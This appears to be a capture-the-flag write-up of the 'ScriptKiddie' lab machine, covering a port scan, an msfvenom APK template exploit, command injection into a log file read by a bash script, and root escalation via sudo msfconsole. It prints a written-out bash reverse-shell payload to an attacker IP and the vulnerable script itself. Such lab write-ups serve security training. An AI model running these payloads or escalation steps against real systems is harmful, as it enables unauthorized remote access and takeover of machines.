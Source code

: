 ## ScriptKiddie

Difficulty: Easy

### User Flag

```
rustscan -a 10.10.10.226 --ulimit 5000 -- -A -sV -sC -oN nmap.txt
```

![rustscan](https://github.com/b1d0ws/OSCP/assets/58514930/3580cfc6-f20d-44ac-8b29-3031b3f4b68e)

<br>

The website has some functions using nmap, msfvenom and searchsploits.

![website](https://github.com/b1d0ws/OSCP/assets/58514930/4f0f4e39-6b6c-4bc0-adc1-0f17a86ca4c8)

<br>

Searching for msfvenom exploit, there is this one:

![searchsploit](https://github.com/b1d0ws/OSCP/assets/58514930/d3a2c527-4575-4070-9776-ae9bbc5b9f36)

<br>

Running the exploit, we generate an apk file that can be used as template in the website to get a RCE. Just modify the content of the exploit to get a reverse shell with curl.

![exploitChanges](https://github.com/b1d0ws/OSCP/assets/58514930/c5a34db1-ad6f-4591-a28e-4de093ecd5f4)

![usingExploit](https://github.com/b1d0ws/OSCP/assets/58514930/7ed575c4-6615-4ffc-bcb0-afe61c9239f1)

![websiteExploit](https://github.com/b1d0ws/OSCP/assets/58514930/76e49179-0769-46f1-9b3f-8ccb6e3b93ea)

![gettingRevshell](https://github.com/b1d0ws/OSCP/assets/58514930/c5934448-4165-469f-8429-d0f03a45fb94)

### Root Flag

#### Pwn User

Inside pwn home, there is a script that reads the content of /home/kid/logs/hackers.

You can inject content in this file to do command injection on ${ip} variable, but you need to add 2 fields before the payload because of the "cut -d' ' -f3-" part of the script.

```
THE SCRIPT
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

PAYLOAD
echo -n "A Z 10.10.14.11 30;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.11/2222 0>&1' #" > /home/kid/logs/hackers
```

![scanLosers](https://github.com/b1d0ws/OSCP/assets/58514930/f1879d94-ed25-473f-ab96-79b4e0e1d319)

![pwnPayload](https://github.com/b1d0ws/OSCP/assets/58514930/74222c41-860f-46af-9870-18366d2b338a)

#### Root Privilege Escalation
```
sudo -l
(root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole

sudo /opt/metasploit-framework-6.0.9/msfconsole

# Option 1
irb
system("/bin/sh")

# Option 2
/bin/bash
```
![sudo -l](https://github.com/b1d0ws/OSCP/assets/58514930/d85ce948-6fe1-4eff-a6f0-859572e3bbf7)

![privEsc](https://github.com/b1d0ws/OSCP/assets/58514930/dabd1f25-c83a-4d0f-85be-459969d554a6)
